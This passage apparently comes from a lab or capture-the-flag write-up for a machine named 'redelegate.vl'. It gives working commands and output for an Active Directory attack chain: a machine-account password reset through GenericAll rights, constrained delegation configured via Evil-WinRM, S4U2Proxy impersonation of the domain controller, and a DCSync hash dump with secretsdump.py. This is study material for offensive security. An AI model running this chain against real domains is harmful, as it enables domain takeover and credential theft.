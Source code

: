 Using BloodHound, we identify that `Helen.Frost` has `GenericAll` privileges over the computer account `FS01$`. This means she can reset its password and configure delegation. Since the environment restricts DNS entry creation or adding new machine accounts, Constrained Delegation is the best approach. This allows us to impersonate other accounts for specific services using the controlled machine account.

We begin by resetting the password for `FS01$`:

```
changepasswd.py redelegate/'FS01$'@redelegate.vl -newpass 'Password123!' -altuser redelegate/helen.frost -reset -altpass 'Password123!' -debug

[*] Setting the password of redelegate\FS01$ as redelegate\helen.frost
[*] Connecting to DCE/RPC as redelegate\helen.frost
[+] Successfully bound to SAMR
[+] Sending SAMR call hSamrSetNTInternal1
[*] Password was changed successfully.
[!] User no longer has valid AES keys for Kerberos, until they change their password again.
```

Next, we configure Constrained Delegation for `FS01$` using the `SeEnableDelegationPrivilege`:

```
Evil-WinRM PS C:\Users\Helen.Frost\Desktop> Set-ADObject -Identity "CN=FS01,CN=COMPUTERS,DC=REDELEGATE,DC=VL" -Add @{"msDS-AllowedToDelegateTo"="ldap/dc.redelegate.vl"}
Evil-WinRM PS C:\Users\Helen.Frost\Desktop> Set-ADAccountControl -Identity "FS01$" -TrustedToAuthForDelegation $True
```

We set the `msDS-AllowedToDelegateTo` attribute to `ldap/dc.redelegate.vl` to specify the target service and enable the `TrustedToAuthForDelegation`.

With this setup, `FS01$` is now able to request service tickets for LDAP:

```
getST.py redelegate.vl/'FS01$':'Password123!' -spn ldap/dc.redelegate.vl -impersonate dc

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating dc
[*] Requesting S4U2Proxy
[*] Saving ticket in dc@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache
```

## Complete Mission

Using the ticket, we execute a DCSync attack to dump domain hashes:

```
export KRB5CCNAME=dc@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache

secretsdump.py -k -no-pass dc.redelegate.vl -dc-ip 10.10.72.39

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:<redacted>:::
...
```
